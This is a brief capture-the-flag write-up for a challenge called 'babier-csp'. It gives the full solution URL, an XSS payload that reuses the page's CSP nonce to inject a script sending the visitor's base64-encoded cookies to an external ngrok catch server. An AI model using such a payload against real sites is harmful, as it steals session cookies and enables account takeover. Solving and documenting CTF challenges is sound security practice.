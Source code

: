 Grab nonce from page, inject the template(13:index.js) with a script element with the nonce, set location to catch server `+ btoa(document.cookie)`

https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%22LRGWAXOY98Es0zz0QOVmag==%22%3Elocation%20=%20%27https://a41efb7acc9f.ngrok.io/b64/%27%20%2B%20btoa(document.cookie)%3C/script%3E